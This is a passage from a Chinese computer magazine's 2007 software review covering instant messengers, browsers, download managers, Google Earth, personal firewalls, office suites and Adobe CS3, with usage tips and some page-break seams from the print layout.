首先，界面的Vista感觉更强。在安装过程中，对话框的样式更简约，而且对话框并不是显示在屏幕中央的，而是显示在屏幕的右下角，这样可以尽量减少影响用户的工作。在界面布局上，整体感觉更合理，更漂亮。其次，在功能上，新版本的软件加强了以下常用功能：联系人列表、图释、即时和朋友交谈，还添加了一些优秀的创意，查看和共享照片（以及其他文件）。并能实现PC到PC的通话、共享文件夹、双向通信簿、视频对话、发送文本消息、与使用Yahoo! Messenger (雅虎通)的朋友交谈等。如图2所示。



通过上述聊天软件的综合分析，我们可以感觉到即时通信软件的一些更加体贴人、关心人的变化，充分体现了以人为本的设计思想，让用户真正有“用”。

### 2007年热点技术与产品

《电脑爱好者》合订本 附录・时尚

得舒心，用得放心”的感觉。同时，我们也注意到，在软件原有功能继续加强的同时，动态娱乐的元素不断增加，用户之间的交流也不用仅仅局限于平淡的文字界面，表情、头像、场景的丰富对交流体验起到了一定的改善，时尚前卫的用户也许会对这些娱乐功能感到欣喜。

> 小技巧
在MSN Messenger中快速发送文件。用MSN传输文件通常的做法是，打开“文件”菜单，选择“发送文件或照片”，然后在对话框中选择文件，这样做非常麻烦。其实，只要把要发送的文件拖动到你和朋友的聊天对话框中就可以发送文件了。也可以直接拖动到MSN Messenger列表中要发送的好友名字处，松开鼠标就可以发送文件了。

##### 2. 安全方便的浏览器软件

在网络软件中，浏览器是一个十分重要的部分。我们来看看本年度比较热门的几款浏览器。

- （1）Internet Explorer 7（IE7.0）

软件下载地址：http://www.microsoft.com/

IE7.0也采用了一些最新的网络技术，初次使用时，除了感觉图标有了小小的变化外，用户还会感觉到微软所提供的一些个性化服务。需要指出的是，使用Internet Explorer 7必须要经过正版验证。验证通过并升级后，用户就可以体验到IE7.0的许多新功能了。

首先，在标签浏览功能上让人耳目一新。其实，在其他主流浏览器中，这项功能早已具备，这次，微软终于提供了此功能。但是，浏览器细节上的设计还有待提高，比如，目前无法实现快捷键在标签之前切换、双击关闭当前标签、标签移动等操作。整体界面似乎有些差强人意，用惯了IE6.0的用户会有很明显的拥挤感觉。如图3所示。



其次，安全功能进一步增强，尤其是针对比较热门的钓鱼式攻击提供了防范措施。开启了反钓鱼功能后，在浏览网页时，在IE状态栏上将会有一个蓝色的小盾牌样式的图标，如果是恶意的钓鱼网站。IE7.0还提供了仿冒网站筛选功能和加载项管理。如果需要关闭或打开仿冒网站筛选，可以在Internet Explorer中打开“工具”按钮，单击“仿冒网站筛选”，然后单击“仿冒网站筛选设置”。滚动到选项列表中“安全”下方的“仿冒网站筛选”部分进行相关设置。例如，如果需要禁用筛选功能，单击“禁用仿冒网站筛选”，然后单击“确定”。“仿冒网站筛选”将不会检查仿冒站点或向你发出有关仿冒站点的警告。

> 小技巧
仿冒网站筛选实际上就是我们所说的钓鱼式攻击，它使用了三种方法来保证浏览安全。首先，它会将访问的网站地址与向Microsoft报告为合法站点的站点列表进行比较，该列表保存在用户计算机上。其次，它可以帮助分析访问的站点，以查看它们是否具有仿冒网站中常见的特征。最后，在用户同意的前提下，仿冒网站筛选会将一些网站地址发送给微软公司，以便根据频繁更新的已报告仿冒网站列表进行进一步的检查。在浏览过程中，如果正在访问的站点位于已报告仿冒网站列表中，Internet Explorer 将显示警告网页并且在地址栏上显示通知。

再次，IE7.0还提供了更贴心的加载项管理。加载项管理器允许用户查看Internet Explorer 的所有加载项列表。使用IE浏览一些网站时，可能会安装一些插件，比如Shockwave player 和 QuickTime，新增的插件管理器就是专门针对这些插件而设计的。打开 Internet Explorer，在“工具”菜单上，单击“管理加载项”，在弹出的“显示”框中，即可查看当前的加载项组。

微软的一系列动作也给了其他浏览器的生存空间。实际上，近几年，许多优秀的浏览器软件开始发展起来，而且这些软件更具有“平民化”色彩，几乎随时与用户互动，很多用户的要求都能够马上在新版本浏览器中反映出来。傲游Maxthon、火狐Firefox等软件就是其中比较优秀的代表。

- （2）傲游Maxthon V2.0.3.4643（MyIE2）

软件下载地址：http://www.maxthon.cn/

Maxthon V2.0是一个强大的多页面浏览器。在新版本中，除了方便的浏览功能，傲游浏览器还提供了大量的实用功能改善用户的上网体验。其实，用户几乎天天都在和浏览器打交道，对浏览器之外的其他功能也开始关心起来，仔细看看Maxthon V2.0的一些功能，我们就会有一些很亲切的感觉。

我们先来看看其中的一些特色功能。首先，通过强大的服务器，傲游提供了在线收藏功能，保证每个人可以在任何电脑上使用自己的网络收藏夹；通过收集面板，可以方便地收集论文资料，获取程序代码，查看最新的新闻，收集游戏技巧等，而且基本不占用资源；其次，通过设置可信赖站点，能够保证用户交易安全；通过浏览器防假死功能，可以有效防止Ajax假死，加快浏览速度；通过智能填表功能，浏览器可以实现自动填写表单。此外，软件还提供了即指即现的浮动按钮工具、屏幕截图、网页嗅探器、在状态栏中自定义参数、CPU节能、多线程浏览模式等。这些功能极大地简化了往常繁琐的操作过程，取而代之的是傲游提供的一键式操作。无论保存图片，截取网页中的视频或是音乐等等，都变得更加快捷简单。如图4所示。


- （3）火狐Firefox V2.0

软件下载地址：http://www.mozilla.org.cn/

现在，Firefox炒得越来越火热，许多人都预测Firefox已经开始慢慢瓜分IE的市场，并且将最终代替IE，成为世界上使用者最多的浏览器。当然，名气不是吹出来的，Firefox是Mozilla开发组的新作，是一个十分干净、完整的浏览器。初次安装后，软件会提示其他浏览器中的选项、书签、历史、密码以及其他数据。Firefox界面十分清爽，在对RSS功能的支持上，Firefox也可以很方便地把网络上的RSS源加为书签，收藏以后，每次启动Firefox时都会自动载入RSS源的最近更新，把鼠标放上去就可以显示最近文章的标题，自己可以先选择文章标题查看。如图5所示。



在安全方面，Firefox提供了两种打开模式，其中一种就是安全模式；软件支持对插件进行数字签名；具有阻挡弹出式窗口的特点，在阻止一个弹出式窗口后，它会在小型状态条中提供反馈信息，同时它能迅速解除对一个弹出式窗口的阻挡。此外，软件还支持自定义工具栏，并对下载管理系统进行大幅改进，主要更新包括下载队列（设定每个站点/所有站点最大下载连接）以及断点续传功能。

当然，本年度的精彩浏览器软件并非以上几款。其他各路浏览器诸侯也纷纷出马，用户也有了很大的选择余地。如2007年推出的Netscape V8.1.3，除了带给用户每一个浏览器所必要的元素外，还提供了许多额外的设置选项。除了包含浏览器Navigator，软件还包含了E-mail客户程序Messenger Mailbox，新闻组程序Collabra Discussion Groups，网页编辑器Page Composer，“推”客户程序Netcaster，以及Conference、Calendar、IBM Host On-Demand等。还有“极速浏览器2007”，这也是一款基于IE内核的、多功能、安全性极高，个性化多页面绿色IE浏览器。除了支持多页面多文档浏览，软件与IE完全兼容，内存资源则比IE平均少了30%。

总之，浏览器正朝着更加方便、快捷的方向大步前进。出色的个性化设置功能和较小的资源占用，以及更加可靠的安全性，都将扩大浏览器的市场潜力。

##### 3. 高速稳定的网络下载软件

网络时代，我们越来越离不开下载了。新软件出来，即便有上百兆我们也乐意去下载回来试验一下；新功能出来，即便是试用版本我们也乐此不疲。可见，网络下载在网民心目中开始占据着越来越重的份额。不过，在这个病毒横行的时代，在下载的同时，木马、后门、蠕虫、病毒、插件等也可能会“泥沙俱下”，给用户带来极大麻烦。这也反映了本年度下载软件发展的一个趋势：高速稳定，安全至上。于是，各大上传下载软件纷纷施展拳脚，2007年的新功能也给用户带来了不少实惠。

- （1）快车（FlashGet）V1.9.2.1028

软件下载地址：http://www.flashget.com/

毫无疑问，尽管其他下载软件发展很快，但“快车”依然是互联网上最流行，使用人数最多的一款下载软件。在很多场合，我们都可以看到快车的宣传口号：“采用多服务器超线程技术、全面支持多种协议，具有优秀的文件管理功能。”2007年，快车又有什么新动作呢？

首先，在安全方面，快车在“插件扫描”功能方面更上一层楼，通过下载安全监测技术SDT（Smart Detecting Technology），在下载过程中自动识别文件中可能含有的间谍程序及灰色插件，并对用户进行有效提示。文件下载完成后自动调用用户指定的杀毒软件，彻底清除病毒和恶意软件。如图6所示。



其次，稳定性强，速度快。在高速下载的同时，能够维持超低资源占用，不干扰用户的其他操作。软件使用MHT（Multi-server Hyper-threading Transportation）多服务器超线程传输技术，最大限度优化算法，智能拆分下载文件，多点并行传输，并支持BT、HTTP及FTP等多种协议。通过将HTTP下载和BT下载无缝融合，适应了网友在BT下载应用方面的需求，这也是一个很大的进步。

此外，通过One Touch技术优化BT下载，能够在获取种子文件后自动下载目标文件，无须二次操作。另外，软件在个性化设置方面也很有特色。通过自由设置任务下载计划，可随意更改下载任务的次序，按序下载；通过自定义文件管理规则，可以将下载文件自动分类到指定目录；支持拖拽、更名、添加描述及查找功能，文件名重复时自动重命名。可见，快车采用了更加稳健的下载技术，一句话，用户感觉会越来越放心。

- （2）迅雷V5.7.2和Web迅雷V1.10.1.172

软件下载地址：http://www.xunlei.com/

迅雷的争议一直很多，不过，没有争议就没有成长。本年度推出的迅雷V5.7.2是一款基于多资源超线程技术的下载软件，作为“宽带时期的下载工具”，迅雷针对宽带用户做了特别的优化，能够充分利用宽带上網的特点，通过丰富的智能提示和帮助，让用户真正享受到下载的乐趣。迅雷V5.7.2如图7所示。



为了进一步迎合用户的口味，具有另一种下载风格的“Web迅雷V1.10.1.172”也在功能上同步升级，它使用了全网页化的操作界面，更符合互联网用户的操作习惯，带给用户全新的互联网下载体验。下面，我们来看看迅雷技术的独特功能。

首先，在安全方面，迅雷使用了新的下载库和智能算法。通过全新的多资源超线程技术，能够显著提升下载速度。新版WEB迅雷则新增了安全组件，可以做到安全预警，防患于未然。当我们在下载一个资源时，WEB迅雷会自动对其进行安全判定，如果发现了有安全问题，会在窗口下方区域提醒我们。如果我们可以单击“取消”按钮来取消下载，也可以单击“开始下载”来“带毒下载”。另外值得一提的是，很多杀毒软件需要下载完以后，解包才能知道有没有毒，有没有插件，而迅雷安全组件却无需解包就可以知道其中的“情况”。

其次，在不降低用户体验的前提下，迅雷可以对服务器资源进行均衡，有效降低了服务器负载。只要在WEB迅雷中单击上方“设置”链接，再在打开窗口中单击“BT/端口设置”标签，然后选中“设置WEB迅雷为默认BT下载工具”后的“是”单选框，再单击下方的“保存更改”。之后，我们在单击BT资源时，将会直接调出WEB迅雷进行下载。

再次，下载软件在智能化技术方面也有明显提高。迅雷推出了“智能下载”理念，通过智能的信息提示系统，可以给用户提供相关的操作提示和建议。不过，美中不足的是，使用迅雷之后，尽管下载速度有一定提高，但很多用户抱怨系统速度明显变慢，这和当前下载要求的“稳定”似乎背道而驰。

##### 4. 搜索新天地：Google Earth和电子地图“小ME”

在百度和Google依然处于火热竞争的搜索年代，和搜索相关的软件总能带给用户许多的惊喜，Google Earth和电子地图“小ME”就是其中两道比较吸引眼球的风景。

- （1）Google Earth V4.2.0181.2634

自从Google涉足网络旅游领域后，Google Earth这款软件就一直为人们所关注。以前，借助Google Earth，人们就可以在一副3D地图上放大目的地或获得驾车指南，或者在3D地图上搜索特定区域，放大缩小虚拟图片，然后形成行车指南。如今，Google Earth不仅可以浏览地球，甚至还可以浏览宇宙空间了。2007年，Google给Google Earth加上了一个名为“SKY”的新模式，通过它就可以浏览地球以外的内容了。点击Google Earth顶部的工具栏里的新SKY图标，即可切换至宇宙浏览模式。

软件下载地址：http://earth.google.com/download-earth.html

- 1. 第1步：语言设置。选择“Tools”（工具）菜单下的“Options”（选项），在弹出的窗口中单击“General”（普通）选项卡，然后在语言选择区域选择“中文（繁体）”选项。注意：软件暂时还没有提供“简体中文”选项，选择繁体版，有利于我们搜索星座和其他目标。
- 2. 第2步：切换到宇宙模式。单击“检视”（查看）模式下的“切换到空中”（切换到宇宙模式），即可切换到SKY模式了。在左边的“图层”窗口，用户直接点击星体名称，就相当于直接坐在家中，遨游宇宙了。如图8所示。
- 3. 第3步：搜索地球目标。这个功能Google早就推出了，不过，新版本的功能显得更强大。单击“检视”（查看）模式下的“切换到地球”选项，在Google Earth软件中最上面的一排是常用的菜单，左边的面板提供了搜索等功能。



> 小技巧
通过这个软件，用户可以直接观看数百万光年以外的遥远星系，探索星群，看行星运动，甚至超新星的爆发，感觉就像拥有了一副虚拟而巨大的太空望远镜。SKY模式下的图像数量超过100万张，它们来自多个科研机构，包括斯隆数字巡天、加州理工学院的Palomar天文台及美国NASA资助的哈勃项目等等。值得一提的是，搜索时画面的转向效果非常好，感觉就像真的在太空漫游。直接点击相关星体，还能够显示与它相关的图文说明。

能。如输入“Beijing”，定位到北京区域。当然，软件最基本的功能就是对某个地方实现定点的查看。除了北京，附近其他的大城市也有注明，如tianjin（天津）、shenyang（沈阳）等。

从图片效果来看，不论从大小、比例和周围的3D细节，其仿真效果非常出色。双击需要了解的地方，就可以了解详细的信息了。

- （2）“小ME”电子地图

2007年以来，网络搜索技术不断更新，网络服务也越来越方便。比如，初到外地，那如蜘蛛网般纵横交织的公交线路和交错无章的立交桥对许多人来说，恍如迷宫一般。人们常常会被那些分布在不同地点的同名站弄得晕头转向，被那些忽左忽右的指示箭头颠倒方向……怎么办？地图搜索工具“小ME”可以帮助人们轻松解决这个问题。其设计初衷是为大众提供电子地图搜索服务，例如地点搜索、公交换乘方案查询、驾车路线指引服务等。

软件下载地址：http://me.mapbar.com/download.html。

首先，在地图浏览和搜索服务方面使用很方便。软件支持全国430多个城市的电子地图浏览以及发送地图邮件，并且提供地图数据实时更新服务。

因此，只要能上网，大部分的用户都可以找到自己所在的地方。需要搜索具体的地点或周边时，选择菜单项上的“地图查询”，输入查询关键字即可出现大概方位。例如，首先选择城市如“北京市”后，然后输入地址：“北京大学”，结果会在右侧的查询结果中出现，同时在地图上也会显示出来。就像物理学中确定物体的位置需要参照物一样，在“小ME”电子地图中，以区域或者点为单位，可以搜索区域内或者当前位置周边的相关数据，并可以随意控制范围大小和信息类型。

其次，可以方便地查找公交换乘和驾驶路线。在日常生活中，无论搭公交车还是自己驾车出门，第一件事情就是需要有一个方便的路线图。“小ME”提供了460多个城市的公交换乘方案与路线地图标示，将地图、路线、描述完美地结合在一起。以公交换乘为例，如果现在要从“天安门”到“公主坟”，软件就会提供多种选择方案。选择完毕，再次单击“搜索按钮”，即可看到右侧的详细换乘方案。每条结果都对详细的乘车路线进行了说明，描述简洁而清晰。同时，在地图上用一根大红的粗线标注了行车路线。

此外，为了方便用户保存查询信息，软件还提供了邮件发送地图快照、手机发送路线、发送地图到MSN/QQ好友结果等服务。如果觉得有必要，还可以将当前窗口的地图以及查询结果打印出来。点击“工具箱”菜单下的“打印地图”选项，即可开始打印。另外，到外地旅游时，我们可能面临着衣食住行的问题。通过“小ME”电子地图，可以很轻松地搜索美食地点。查看全国旅游景点位置和信息时，包含了从景点图片到住宿、饮食、风俗历史等全方位资讯。

##### 5. “密不透风”的个人防火墙

个人防火墙的作用就是在不妨碍正常上网浏览的同时，能够阻止其他用户对计算机的非法访问。一旦发现对电脑产生危险的通信，软件就会检查到达防火墙两端的所有数据包，按照规则决定该拦截这个包还是将其放行，紧急情况下，能够立即中断通信来保护电脑。目前，国内有许多优秀的个人防火墙软件，如瑞星、金山、天网个人防火墙等。不过，现在病毒传播范围更广泛，总的看来，以全球病毒监控为主的国外大型安全公司的产品则占有明显的优势。

- （1）Norton Internet Security 2007个人防火墙

下载地址：http://www.symantec.com/index.htm/

Norton Internet Security 2007（以下简称为NIS）系列产品中，包含了一款十分优秀的个人防火墙软件，它可以全面预防病毒、黑客和隐私泄露。

首先，软件在安全防护和监控功能方面有不错的表现。利用日志查看器，可以通过在左列中选择日志类别查看每个日志中记录的详细信息。软件能够识别种类繁多的应用程序，还提供了友好的安全警报界面和警报助手功能，帮助用户了解警报的含义、判断风险的大小，并提供相应的处理建议。其次，系统设置和规则设置使用很方便。NIS个人防火墙使用两种规则：程序控制规则和一般规则。其中，程序控制规则控制计算机上的程序访问Internet，一般规则控制其他所有传入和传出的网络通信。在处理过程中，NIS个人防火墙首先处理一般规则，然后处理程序规则。在一般规则列表中，均按其出现的顺序从上往下进行处理，而程序控制条目不按顺序进行处理，但每个程序控制条目中的规则将按其出现的顺序从上往下得到处理。添加一般规则如图9所示。



再次，软件集成了强大的病毒防范、入侵防护和漏洞检测功能。Norton Internet Security集成了Norton AntiVirus，可以自动更新病毒库，将最新的病毒拒之门外，可以很好地达到保护计算机系统的作用。另外，软件还集成了入侵检测、漏洞检测等功能。当发生攻击时，软件会自动出现提示，并给出详细的攻击信息。不过，作为套件产品的一个组成部分，诺顿个人防火墙带有过多的共用组件，使用过程中会占用过多的资源，计算机速度很容易受到影响。

### (2) ZoneAlarm 7.0.334.000

软件下载地址：http://www.zonelabs.com/
ZoneAlarm 7.0.334.000也是一款非常优秀的个人防火墙软件，它可以保护电脑不受互联网上非法用户的入侵，同时还能够自动检测局域网络的设置，确保来自内部网络的通信不受影响。ZoneAlarm Pro的基于程序的防护规则不仅仅针对应用级别，还能够在系统组件层次制订访问规则，可以明显加强针对应用程序的粗粒度防护。设置规则时，可以单击“Zones”选项卡，在此区域右下方会出现“Add（添加）”、“Remove（删除）”及“Edit（编辑）”按钮。或者直接在设置区域单击右键，在弹出的“Add（添加）”菜单中，可以选择“Host/Site（主机/网站）”、“IP Address（IP地址）”、“IP Range（IP域）”、“Subnet（子网）”等方面的规则设置。除了没有中文版本以及缺少自动为应用程序创建防火墙规则的功能以外，ZoneAlarm Pro没有多少毛病可挑，而且软件是免费的。如图10所示。



### (3) McAfee Personal Firewall V7.1

软件下载地址：http://www.mcafee-at-home.com/
不少网友将其称为“麦咖啡”，可见此软件的独特品味。这款软件由McAfee公司推出。
McAfee规则集定义能力是其最突出的特点之一，不但内置了大量的协议和服务支持（单就内置的协议数量来说恐怕没有产品能够与McAfee相提并论），而且在定义网络过滤规则的同时还可以选择相关的应用程序以进行更细致的限定。一个贴心的特性是McAfee可以克隆已有的规则并经过修改生成新的规则，这使得快速生成大量规则成为可能。而且，McAfee对非法入侵的检测和处理有很多独到之处，当入侵发生时，McAfee可以嗅探相关数据并予以保存，将产生的攻击告警发送到用户指定的电子邮箱。另外，McAfee的许多功能都依赖于网站服务，当应用程序请求访问互联网时，McAfee Personal Firewall都要访问特定网站来检测该程序，如通过黑客观察组织（http://www.Hackerwatch.org）这个网站来获取详细信息并询问是否信任该程序。

总的来看，上述几款防火墙在性能设定上表现十分优异，在一些细节上也有不错的表现。除了上述软件，本年度推出的卡巴斯基个人防火墙6.0.0.307（http://www.kaspersky.com.cn）、Outpost Firewall Pro V4.0（http://www.agnitum.com/）、BlackICE PC Protection V3.6.cqc（http://www.networkice.com/）、Kerio Personal Firewall V4.3.268（http://www.kerio.com/）、Sygate Personal Firewall Pro V5.6.2828（http://www.sygate.com）等都有不错的表现。其中，Outpost不但能够阻止弹出窗口和按照内容阻止广告程序，用户还可以按照图片的幅面阻止图片的显示。这是一个颇具创造性的功能，用户可以增加一个针对大幅面图片的限制规则从而防止对非法图片的浏览。

#### 三、应用软件篇：竞争与变革的时代

在应用软件领域，我们仍然首先循着这条规律去判断：“强者恒强”。仔细观察就会发现，MS Office 2007在本年度依然大占风头，有关软件标准的格式之争也让人们开始去揣摩在软件领域的“霸权”。同样，CS3系列软件的强势出击，其他软件几乎没有交手之力。不过，从WPS Office 2007的回归和抗争，我们也许会去推翻“弱者恒弱”这个所谓的定理。

##### 1. 办公双雄：WPS Office 2007和MS Office 2007

- （1）WPS Office 2007

前几年，每次年终点评软件的时候，人们总能看到WPS的身影，这也是一个值得国人骄傲的软件代表。在一番修炼之后，2007年8月30日，金山软件历时两年研发的办公软件WPS Office 2007全新发布，软件包括：WPS表格，WPS演示，WPS文字。与之前的2005版本相比，WPS Office 2007更加稳定，在产品性能、美观程度、功能丰富程度上都有了非常大的提升，整体功能上更符合互联网时代的特征。如果非要用一句话来判断，那就是：WPS Office 2007更具有中国人自己的特色。

软件下载地址：http://wps.kingsoft.com/
近看WPS Office 2007个人版，最大的吸引力莫过于依然“免费”。2007年7月下旬以来，中文办公软件文档格式标准之争铺天盖地。对于软件开发商来说，要使用户接受标准的最好方式就是开发出更符合用户需求的产品，WPS Office 2007正是在这一背景下推出的。软件界面如图11所示。

首先，提供了对MS Office格式的兼## 2007年热点技术与产品

内容，并能够轻松转换为PDF等格式。姑且不论，这也许是WPS的一个缓兵之计。WPS的体积小确实给用户带来了很多便利，但把WPS 2007格式的文档发送给别人时，由于不少人使用Microsoft Office，没有安装WPS Office 2007，对方机器上无法识别图标。针对这种情况，WPS 2007提供了三种方式，让用户既可以享受到WPS Office 2007的小体积，又能在文件编辑和保存时，始终保持Microsoft Office的格式。值得一提的是，同一文件在Linux系统与Windows系统使用方法相同，读写效果一致。此外，软件还可以轻松将WPS文件转换为PDF格式。

> 《小技巧》将WPS文字保存为DOC格式的方法。选择“工具”菜单下的“选项”，点击“常规与保存”选项卡，在“文件默认保存方式”的下拉列表中选择Microsoft Word97/2000/XP文件（*.doc），点击“确认”。经过上述设置，以后新建的WPS文字文件进行保存或另存时，都能够被保存为Microsoft Word文件。

其次，融入了更多的互联网服务。在新版WPS Office 2007中，WPS与互联网的结合空前紧密，比如文档内嵌了“爱词霸”搜索框，用户可以直接在文档中进行在线的中英文翻译。此外，金山新推出的文档美化地带也即将整合到WPS Office 2007版中，用户将可以对演示文档进行在线的个性化美化加工。在WPS Office 2007个人版中，放弃了传统软件出售授权的发展模式，而是在今后的版本升级和更新中，尝试将软件平台化，如在软件中加入了内嵌广告等。

再次，个性化的特色功能。如果没有微软的平台垄断，看了WPS Office 2007的特色功能，我们肯定会惊讶不已，并毫不犹豫地去选择这款软件。这些特色功能包括：WPS文字的斜线表头，可每个单独区域内进行文字的编辑，不论字符多少，不变形、不跑版，可任意调整，是符合中文编辑需要的斜线表头；可将阿拉伯数字自动转换为人民币大写，同时自动添加货币单位；稿纸格式符合中国文字传统，轻轻点击就能够将一篇文档全部转化为稿纸格式，连标点符号都符合稿纸的行文规范；提供完全符合中文标准和习惯的项目符号；当一个单元格内容过多时，下拉过长的编辑栏会阻碍对其他单元格内容的浏览和编辑；通过段落重排、智能格式整理等10种自动处理功能，全篇文档能够瞬间检查整理完毕，避免了一点点手动处理的麻烦和出错的可能；提供反片打印，非常适合印刷业从业人士使用。正是这些符合中国特色功能特点，使WPS Office赢得了国内许多用户的青睐。而新版WPS Office 2007的推出，必将进一步提高WPS Office的竞争力。

## （2）MS Office 2007

老爸是富翁，儿子当然是富翁的儿子了。用这个比喻也许有些不恰当，但却很真实地反映了MS Office 2007确实在起跑线上就先人一招。2006年年底，MS Office 2007与微软新操作系统Windows Vista一同发布。当然，MS Office 2007在实力上也毫不逊色，它的功能有较大的调整，其中包括程序用户界面的改进，商务智能、协同和个人开发等功能的增强。此外，一系列基于服务器的核心桌面产品也将包括在内。下面，我们来看看Word 2007的一些变化。

首先，Word 2007在界面上改进比较明显，主界面采用新的设计，菜单系统使用更易用的ribbons菜单。打开一个文档后，在最下方会显示出页数、字数统计、浏览版式、页面缩放比例。所有的功能更直观地摆放在界面最上方，根据界面大小的变动自动地缩小菜单内容，只保留关键的功能在界面上显示。原来的“文件”菜单被放在了左上角的Office标志上，有点类似Windows系统的开始菜单。如图12所示。

其次，Word2007具有更加开放的文件格式支持。保存文件时，新的word文档把以往版本的doc格式分成了两种格式，一种是普通的doc格式，叫docx；另外一种叫做docm，要使用宏功能，只能保存为docm格式。另外，文件支持格式中增加了PDF格式和XPS格式。PDF就是大家通常用的ADOBE PDF格式，而XPS格式则是微软寄予厚望的新文件格式，目的是来对抗Adobe PDF格式。在覆盖保存文件的时候，Word 2007中还增加了合并功能，较之Word 2003的确有了更多细腻的人性化表现。

再次，网络功能的增强。Office 2007套件不仅包括了RSS、Blog、Wikis、播客等网络功能，还把统一通信、内容管理服务器、商业智能数据仓库、企业项目管理服务器等功能加入其中，使得原来单纯的文档、图表编辑变得更加丰富多变，也使得普通个人用户大呼过瘾。此外，MS office 2007的安全性稳定性也有很大提高。

当然，MS Office 2007的其他系列软件也有很大改进，上述描述只能是冰山一角，但也很切实地反映了MS Office 2007的新变化。与以往的版本相比，MS Office 2007可以说是脱胎换骨，不论是从界面还是功能，都更加开放，更加亲近用户，尤其是支持PDF和XPS格式，增强了信息共享能力。此外，Word 2007的协作办公能力也有很大的提高，符合网络时代应用软件的发展潮流。

##### 2. 多媒体软件的CS3系列风暴

2007年以来，Adobe公司的CS3系列软件一直是网友们津津乐道的一个话题，这也是本年度设计软件界的一个头等大事。我们首先来看看CS3的全体成员列表：

- Adobe Photoshop CS3（不与ImageReady捆绑）
- Adobe Illustrator CS3
- Adobe InDesign CS3（包括InCopy CS3）
- Adobe Acrobat 8 Pro
- Adobe Flash CS3
- Adobe Dreamweaver CS3
- Adobe Fireworks CS3（不与Photoshop捆绑）
- Adobe Contribute 4

乍一看的感觉，用咱们中国人的话来说，自然是“将门虎子，家族香火越来越旺了”。2006年12月15日，Adobe公司在官方网站提供了Photoshop CS3测试版，这也拉开了本年度CS3系列软件热评的序幕。

### （1）Photoshop CS3

相对于以前版本，Photoshop CS3的变化更显著。从焕然一新的操作界面，创新的折叠式工具栏，到灵活的伸缩式面板以及实用的快速选择工具，都可以让用户更加得心应手。另外，Photoshop CS3在图案工具、Adobe Bridge、对话框功能等方面也有了许多明显的改进，用户还可以直接使用网页Banner尺寸、手机屏幕尺寸等。具体变化如下：

### 第一，全新的用户界面和工作面板

与旧版本相比，Photoshop CS3的变化非常明显。进入软件界面后，会有一种很现代很清爽的感觉。在界面的左边是一个更长的单排工具栏，整个工作区域也更加开阔。如果希望切换到旧版的双排工具栏，只要单击工具栏上方的双箭头按钮即可。按住左侧工具栏中的最后一个按钮，还可以进行四种显示模式的切换，分别是：标准屏幕模式；最大化屏幕模式；带工具栏的全屏模式；全屏模式等。在界面的右边可以看到一个黑灰色的底板，上面有不同的面板选项。通过对这些面板进行调整，可以优化组合成适合自己的界面。如果不需要把面板放在左边，也可以直接把面板拖拽出来成为浮动面板。如图13所示。

### 第二，增强的范围选择功能。

首先，改进后的快速选择工具更加好用，其使用方法是基于画笔模式的。也就是说，只需要对快速选择工具设置基本参数，用户可以“画”出所需的选区。如果需要选择离边缘比较远的较大区域，可以使用直径相对比较大的画笔；如果需要选择边缘，则换成小尺寸的画笔，这样才能尽量避免选取背景像素；如果想对某些包含在选区中的特定区域进行处理，按住Alt键再用快速选择工具去“画”一下就可以了。其次，还可以优化边缘调板，对选区边缘的效果进行控制。更值得一提的是，在使用任意选择工具时，还可以单击选项栏上的“Refine Edge（优化边缘）”按钮，对选区的边缘进行更加细微的调整。

### 第三，更体贴的曲线调整对话框。

Photoshop的曲线功能十分强大，而Photoshop CS3则锦上添花，在曲线对话框里添加了一些选项，使得曲线调整功能更加灵活。选择“图像”→“调整”→“曲线”命令，即可看到“曲线”对话框。在其下方有一个曲线显示选项，在这里可以设置显示的各种选项，包括柱状图等。在新曲线面板的格子部分，软件内置了色阶的显示，使调色更具参考性。拖动“输入”处的小三角，可以分别对暗部和亮部进行调整，也可以直接用鼠标调整曲线。在通道的RGB模式下，红、绿、蓝三种颜色的曲线都会同时出现在线框里，这个新增功能提供了更加方便快捷的可视化操作。

### 第四，黑白照片转换控制。

Photoshop CS3新增了黑白效果转换功能，不仅增加了预设效果，而且还可以当作调整图层来使用。单击“图像”→“调整”菜单，可以看到多出了一项“Black & White”（黑&白）命令。除了可以将照片从彩色转换为黑白，这里还提供了许多预设功能。这样，可以对不同色彩区域实现更加精确的控制。

### 第五，更有特色的克隆面板。

在Photoshop CS3中，新增了一个“Clone Source”（克隆源）面板，这是对图章等工具的补充，也使得克隆过程更加清晰可见。在进行克隆与修补工作时，控制起来更加灵活方便，针对克隆对象的管理也更加自如。这个面板中提供了偏移（Offset）的X、Y坐标显示与控制，宽度和高度显示与控制，以及是否显示叠加，并能够调整叠加的不透明度、混合模式，以及是否自动隐藏和反相等。

### 第六，灵活方便的智能滤镜。

在Photoshop CS3中，智能滤镜给用户带来了很大方便，将某个图层转换为智能对象后即可对其应用各种滤镜。如果觉得某滤镜不合适，可以暂时关闭或者退回到应用滤镜前的初始状态。这样，用户不必多次存储“半成品”文件。使用智能滤镜后，不管用户对图层添加了哪种过滤器或效果，所调节的参数都是可储存、可移动、可复制粘贴，而且是可调节的。如果用户想对某个滤镜的参数进行修改，可以直接双击图层面板中的该滤镜，打开滤镜对话框。单击图层面板滤镜左侧的眼睛图标，则可以关闭滤镜的预览效果。在某个滤镜上单击右键，还可以进行编辑滤镜、关闭滤镜、删除滤镜等操作。

### 第七，功能强大的Adobe Bridge浏览器。

Adobe Bridge文件浏览器是一个能够单独运行的完全独立的应用程序。单击“文件”→“浏览”选项，可以看到文件浏览功能也有了一些新的变化。软件内置了一个放大镜，如果想仔细查看某幅图片的某个区域，可以使用鼠标滚轮增大或减小放大的倍率，最大能放大到8倍速之多。不仅如此，当移动到边缘时，放大镜还可以自动旋转。在界面上，所有的功能都被整合在一组组的面板里。同时，软件还提供了方便的照片比较功能。

此外，软件在打印预览、亮度和对比等功能上也更加简洁而实用，尤其在细节处理上更加方便实用。

### （2）三剑客：Fireworks CS3、Dreamweaver CS3和Flash CS3

下面，重点介绍三剑客CS3版本的一些技术亮点。通过这些介绍，也能大致窥探CS3的技术走势。

### 第一，Fireworks CS3。

尽管强大的Photoshop CS3让Fireworks这款图像应用程序面临着比较尴尬的局面，但Adobe公司并没有放弃这款软件，而是对Fireworks进行了重新定位，让它以站点原型设计工具的身份出现在市面上。新版软件在实时颜色编辑、绘制工具和控件、关键操作功能、控制面板、橡皮擦工具、裁剪区域工具等方面都有很多细致的改进。值得一提的是，Illustrator CS3和Photoshop的文件导入进Fireworks后，会包含众多的图层、效果、路径和混合模式，同时也简化了从设计到原型的一系列过程。

### 第二，功能更强大的Dreamweaver CS3。

